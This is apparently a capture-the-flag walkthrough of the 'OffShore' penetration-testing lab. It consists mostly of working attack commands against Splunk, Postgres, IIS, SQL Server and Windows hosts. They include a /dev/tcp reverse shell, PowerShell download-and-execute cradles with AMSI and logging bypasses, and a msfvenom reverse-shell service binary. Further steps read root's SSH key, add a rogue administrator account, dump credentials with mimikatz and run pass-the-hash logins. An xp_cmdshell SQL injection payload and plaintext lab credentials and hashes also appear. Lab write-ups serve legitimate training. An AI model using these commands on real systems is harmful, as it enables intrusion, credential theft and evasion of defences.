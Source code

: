 # OffShore

Do a ping sweep with

```
fping -s -g 10.10.110.0/24
```

Three host alive

* 10.10.110.2
* 10.10.110.123
* 10.10.110.124

## NIX01

Scan the ports

```
nmap -Pn -sT -sV -T5 10.10.110.123 -p-
```

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

in the port :8000 we can see the splunk web app.&#x20;

[https://www.n00py.io/2018/10/popping-shells-on-splunk/](https://www.n00py.io/2018/10/popping-shells-on-splunk/)

Upload the splunk shell from [https://github.com/TBGSecurity/splunk\_shells](https://github.com/TBGSecurity/splunk\_shells)

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Postgres is listening

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Don't know what type of vuln

{% code overflow="wrap" %}
```
PATH="/usr/local/pgsql/bin:$PATH" ./pg_exec.sh -c '/bin/bash -c "0<&97-;exec 97<>/dev/tcp/10.10.14.3/4444;sh <&97 >&97 2>&97"'
```
{% endcode %}

and in the new shell

```
sudo /usr/bin/tail -f -n +1 /root/.ssh/id_rsa
```

## Pivoting

Setup proxychains with

```
ssh -i id_rsa_NIX01 -D 9050 root@10.10.110.123
```

And ligolo-ng. After that we can ping sweep to find hosts on the other Lan

```
fping -s -g 172.16.1.0/24
```



<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

## MS01

Port Scan

```
nmap -Pn -sT -sV -T5 172.16.1.30
```

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

run tcp dump on NIX01, creds and a flag can be grabbed:&#x20;

```
tcpdump -i eth0 -nn -s0 -v port 80 -w test.cap
```

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

creds= `admin`:`Zaq12wsx!`. Access the website and go under _“Workflow > Create New Workflow” then drag “Start Process” to the workflow pane._&#x20;

{% code overflow="wrap" %}
```
cmd /c powershell -c iex (iwr -UseBasicParsing http://172.16.1.23:8080/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://172.16.1.23:8080/amsibypass.txt);iex (iwr -UseBasicParsing http://172.16.1.23:8080/Invoke-PowerShellTcp.ps1)
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

in C:\Users\administrator.ADMIN.000\Documents we can file a xlsx protected by password. Crackit with john

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

<table><thead><tr><th width="195">Account</th><th width="186">Username</th><th width="114">Pass</th></tr></thead><tbody><tr><td></td><td></td><td></td></tr><tr><td>Network login</td><td>ned.flanders_adm</td><td>Lefthandedyeah!</td></tr><tr><td>Email</td><td><a href="mailto:ned.flanders@offshore.com">ned.flanders@offshore.com</a></td><td>Lefty1974!</td></tr></tbody></table>

<table><thead><tr><th width="195">Bank</th><th width="186"></th><th width="114"></th></tr></thead><tbody><tr><td><a href="https://www.betabank.eu/">https://www.betabank.eu/</a></td><td>991103</td><td>0419!094Ar</td></tr></tbody></table>

## WSADMIN

Scan the ports

```
nmap -Pn -sT -sV -T5 172.16.1.36
```

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Login with xfreerdp

{% code overflow="wrap" %}
```
xfreerdp /u:'ned.flanders_adm' /p:'Lefthandedyeah!' /cert-ignore /drive:Tools,/home/kali/Desktop/Tools /v:172.16.1.36 +clipboard
```
{% endcode %}

With PowerUp.Ps1 we can identify an unquoted service path

{% code overflow="wrap" %}
```
generate exe         : msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=4443 -f exe > Lavasoft.WCAssistant.WinService.exe
place it under       : C:\Program Files (x86)\Lavasoft\Web Companion\Application"
restart the service  : sc.exe stop WCAssistantService > sc.exe start WCAssistantService
```
{% endcode %}

now add  an account that we control to the local administrator group

<pre><code>net user hacker hacker123 /add
<strong>net localgroup administrators hacker /add
</strong></code></pre>

Logout and reconnect to refresh the privileges. Dump creds with mimikatz

| User    | Password                                                                                                                  | hash                             |
| ------- | ------------------------------------------------------------------------------------------------------------------------- | -------------------------------- |
| WSADM$  | M9f,Dzf_5tM9>'BjGhH`;KETEKLcQ;K&NQg/gGRGSJFs'Np\ah%(OB^aXLjNa[1eB"a>+U^<z`j'Ca"TZV=fm+BBDW\&t/?0Hm)R>)ZkcswFkz:8PQFp_b!>4 | 19f221a69c0693ebfdc064393b55d509 |
| wsadmin | Workstationadmin1!                                                                                                        | 669b12a3bac275251170afbe2c5de8c2 |
|         |                                                                                                                           |                                  |



## WS02

Scan the ports

```
nmap -Pn -sT -sV -T5 172.16.1.101
```

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Enter using evil-winrm with the creds previously found

{% code overflow="wrap" %}
```
evil-winrm -u 'wsadmin' -H '669b12a3bac275251170afbe2c5de8c2' -i 172.16.1.101 -s ../Tools/CRTE/
```
{% endcode %}

| user  | passw                                                                                                             | hash                             |
| ----- | ----------------------------------------------------------------------------------------------------------------- | -------------------------------- |
| ws02$ | C(,XH/CsF zf.j`V/^_T."Aq/l#cDitRw<B@m.7/e,;O^M*RHq/sqFlJb!GLotI\N5f6V571QZ)KO;*]MgnHW$<[txRNygHy0Axj`\[e/egkT5bl4 | c72e375bed0918ced38b7a8d3e7f5e09 |
|       |                                                                                                                   |                                  |
|       |                                                                                                                   |                                  |

## WEB-WIN01

Scan the ports

```
nmap -Pn -sT -sV -T5 172.16.1.24
```

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

login screen on [http://172.16.1.24/login](http://172.16.1.24/login)

Login with svc\_iis:::Vintage! (idk where to find them) and bypass the next login screen with a simple SQLi.

Now there is a SOAP request that you can make, found out at this file /DocumentsService.asmx?WSDL

us wsdler to parse the request and repeter to send request to the dev endpoint. The author field is vulnerable to sqli

{% code overflow="wrap" %}
```
>a'); exec xp_cmdshell "powershell -c iex(iwr -UseBasicParsing http://172.16.1.23:8080/Invoke-PowerShellTcp.ps1)"--
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Inside c:\users\public\libraries there are credentials for a user

```
ver = "\\172.16.4.100"  
$FullPath = "$Server\q1\backups"  
$username = "pgibbons"  
$password = "I l0ve going Fishing!"
```

On bloodhound we can see that pgibbons can control the user salvador

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

